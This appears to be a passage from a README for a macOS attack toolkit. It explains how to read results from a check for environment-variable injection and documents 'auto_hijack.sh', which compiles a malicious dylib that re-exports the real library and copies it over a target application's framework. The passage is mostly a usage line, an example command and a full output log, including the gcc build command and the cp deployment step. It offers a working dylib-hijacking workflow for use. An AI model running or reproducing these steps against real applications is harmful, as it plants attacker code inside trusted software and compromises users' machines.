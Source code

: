 **How to interpret the results:**
1. Check if the binary has any built-in restrictions (RESTRICT segment, hardened runtime)
2. Review the AMFI flags to determine if environment variables can be used for injection
3. Note which specific environment variables are allowed
4. If environment variable injection is POSSIBLE, use the suggested injection command
5. For running processes, use the csops command to check code signing flags

### 5. Automatic Dylib Hijacking Script
`tools/auto_hijack.sh` automates the process of creating and deploying a hijacking dylib.

**Usage:**
```bash
./tools/auto_hijack.sh <target_binary> <dylib_to_hijack> <output_dylib> [payload_option]
```

**Example Command:**
```bash
./tools/auto_hijack.sh /Applications/Example.app/Contents/MacOS/Example "@rpath/libExample.dylib" ./malicious.dylib 1
```

**Expected Output:**
```
===============================================
     Automatic Dylib Hijacking Script
===============================================
[+] Creating hijacking dylib for /Applications/Example.app/Contents/MacOS/Example
[+] Target dylib: @rpath/libExample.dylib
[+] Extracting version info...
[+] Found version info: current=1.0.0, compatibility=1.0.0
[+] Resolving @rpath in @rpath/libExample.dylib
[+] Dylib name: libExample.dylib
[+] Checking rpaths:
    Checking /Applications/Example.app/Contents/Frameworks/libExample.dylib
[+] Found original dylib at: /Applications/Example.app/Contents/Frameworks/libExample.dylib
[+] Creating payload for option 1
[+] Creating source code at /var/folders/zz/zyxvpxvq6cz_n67653jq4drr000gn/T/tmp.XXXXXXXX/hijack.c
[+] Compiling hijacking dylib
[+] Re-exporting symbols from /Applications/Example.app/Contents/Frameworks/libExample.dylib
[+] Compile command: gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /var/folders/zz/zyxvpxvq6cz_n67653jq4drr000gn/T/tmp.XXXXXXXX/hijack.c -o ./malicious.dylib -Wl,-reexport_library,/Applications/Example.app/Contents/Frameworks/libExample.dylib
[+] Fixing path references in the compiled dylib
[+] Hijacking dylib created successfully: ./malicious.dylib
[!] To complete the hijack, copy the dylib to:
    /Applications/Example.app/Contents/Frameworks/libExample.dylib
[!] Command to copy the dylib:
    cp "./malicious.dylib" "/Applications/Example.app/Contents/Frameworks/libExample.dylib"
Would you like to deploy the dylib to the target location? (y/n): y
[+] Copying dylib to target location...
[+] Dylib deployed successfully!
[+] To test the hijack, run:
    /Applications/Example.app/Contents/MacOS/Example
===============================================
     Dylib Hijacking Setup Complete
===============================================
```
